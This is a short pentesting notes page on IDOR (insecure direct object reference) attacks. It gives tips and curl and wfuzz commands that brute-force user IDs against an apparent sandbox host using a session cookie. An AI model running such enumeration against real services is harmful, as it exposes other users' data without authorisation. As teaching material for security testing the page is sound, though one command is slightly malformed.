 ```yaml
---
title: Useful Payloads
layout: default
parent: IDOR
has_children: false
nav_order: 1
---
```


<h3>Tips:</h3>
1. Static file IDOR is something like change `1.txt` to `2.txt`. Routing also can be considered but need some guesswork.
2. Database Object Referencing (ID based) IDOR refers to number like `1` to `2` or more complicated like `1a2eee3d-01-44mc11`.



<h2>Use curl and wfuzz to brute force:</h2>
1. First use curl to obtain a length that is for <b>invalid ID</b> as a baseline, with authenticated cookie (`-s` means dowan progress, `-w '%{size_download}'` download means want response size):\
`curl -s /dev/null http://idor-sandbox:80/user/?uid=91191 -w '%{size_download}' --header "Cookie: PHPSESSID=2a19139a5af3b1e99dd277cfee87bd64"`

2. Once you get that invalid response size, exclude it plus 404 using wfuzz:
`wfuzz -c -z file,/usr/share/seclists/Fuzzing/5-digits-00000-99999.txt --hc 404 --hh 2873 -H "Cookie: PHPSESSID=2a19139a5af3b1e99dd277cfee87bd64" http://idor-sandbox:80/user/?uid=FUZZ`